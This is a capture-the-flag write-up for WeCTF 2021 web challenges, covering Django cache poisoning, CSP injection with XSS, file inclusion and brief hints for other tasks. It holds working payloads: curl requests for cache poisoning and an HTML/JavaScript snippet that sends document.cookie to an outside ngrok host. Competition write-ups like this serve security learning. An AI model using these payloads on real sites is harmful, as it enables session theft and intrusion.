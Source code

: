 # WeCTF 2021

[WeCTF 2021 Github REPO](https://github.com/wectf/2021)

## Cache

Two problem from the implementation. According to the documentation of [Django re_path](https://docs.djangoproject.com/en/3.2/ref/urls/#re-path), the parameter should be a regular expression. Matching with `"flag"` actually means that **path contains "flag" will trigger the handler**, e.g `/sdfafds/flag`, `/flag_custom.css`. Secondly, cache implementation is based on user_provided url **, but cookie content is not a cache key**. This opening a opportunity for cache poisoning attack.

```shell
# Admin view the page
curl -X GET --cookie "token=CroRQgDwMmJdybKa" "http://140.113.194.71:4002/flag_RetrOisHere.css"

# Attacker view the page
curl -X GET "http://140.113.194.71:4002/flag_RetrOisHere.css"
```

## CSP1

The app is vulnerability to csp policy injection. Except `connect-src`, other policies can be modified. Pair with xss, we can achieve cookie exfiltration.

```html
<!-- Payload -->
<img src="http://140.113.42.242; script-src 'unsafe-inline' 9a4c-140-113-229-111.ngrok.io">

<script>
  let sc = document.createElement("script")
  sc.src = "http://9a4c-140-113-229-111.ngrok.io/?coo=" + document.cookie

  document.body.appendChild(sc)
</script>
```

## Include

url: `/?🤯=/flag.txt`

## CSP 2/3

Php Object Injection at `/?method=post`, Report URI Modification, Data Exfiltration

## Coin Exchange

WebSocket + CSRF


